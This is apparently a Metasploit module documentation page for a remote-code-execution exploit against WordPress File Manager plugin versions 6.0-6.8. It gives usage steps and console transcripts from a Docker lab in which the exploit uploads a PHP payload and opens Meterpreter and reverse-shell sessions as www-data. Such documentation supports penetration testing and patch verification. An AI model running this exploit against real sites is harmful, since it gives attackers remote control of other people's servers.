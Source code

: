 ## Vulnerable Application

Get a copy of version 6.0 plugin from https://wordpress.org/plugins/wp-file-manager/advanced/.

Vulnerable versions are 6.0-6.8. Versions below 6 are not vulnerable and version 6.9 has been patched.

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/multi/http/wp_file_manager_rce`
3. Do: `set TARGETURI <target_uri>`
4. Do: `set RHOSTS <target_ip>`
5. Optional: Do: `set RPORT <target_port>`
6. Optional: Do: `set PAYLOAD <payload>` to switch payloads
7. Optional: Do: `set VERBOSE true` for more information
8. Do: `check` to confirm existence of vulnerability or `exploit` to let the shells rain

## Options
`TARGETURI`: location of the WordPres File Manager root directory. Change with `set TARGETURI <target_uri>`
`PAYLOAD`: the payload to execute. Change with `set PAYLOAD <payload>` 

### Option Name
`TARGETURI`:  should point to the location of the WordPress File Manager root directory. By default, it is `/wp-content/plugins/wp-file-manager`.
`PAYLOAD`: the payload to execute. By default, it is `php/reverse_php`.

## Test Environment

Tested against WordPress 5.5.1 in a Docker container with File Manager plugin version 6.0 

### Version and OS

Docker container, WordPress 5.5.1, File Manager plugin version 6.0, default path for File Manager, default payload
```
msf6 > use exploit/multi/http/wp_file_manager_rce 
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_file_manager_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/wp_file_manager_rce) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/wp_file_manager_rce) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/wp_file_manager_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444 
[*] 127.0.0.1:8080 - Detected WordPress File Manager version 6.0
[*] 127.0.0.1:8080 - Payload is at /wp-content/plugins/wp-file-manager/lib/files/gnjqFk.php
[*] Sending stage (39264 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.137.128:4444 -> 172.17.0.2:45710) at 2020-10-11 00:49:34 +0800

meterpreter > sysinfo
Computer    : 6e5e66001274
OS          : Linux 6e5e66001274 5.8.0-kali1-amd64 #1 SMP Debian 5.8.7-1kali1 (2020-09-14) x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data (33)
meterpreter > 
```

Docker container, WordPress 5.5.1, File Manager plugin version 6.0, default path for File Manager, `php/reverse_php` payload
```
msf6 exploit(multi/http/wp_file_manager_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/wp_file_manager_rce) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/wp_file_manager_rce) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/wp_file_manager_rce) > set PAYLOAD php/reverse_php
PAYLOAD => php/reverse_php
msf6 exploit(multi/http/wp_file_manager_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444 
[*] 127.0.0.1:8080 - Detected WordPress File Manager version 6.0
[*] 127.0.0.1:8080 - Payload is at /wp-content/plugins/wp-file-manager/lib/files/G8hgHC.php
[*] Command shell session 2 opened (192.168.137.128:4444 -> 172.17.0.2:45718) at 2020-10-11 00:50:52 +0800

uname -a
Linux 6e5e66001274 5.8.0-kali1-amd64 #1 SMP Debian 5.8.7-1kali1 (2020-09-14) x86_64 GNU/Linux
whoami
www-data
```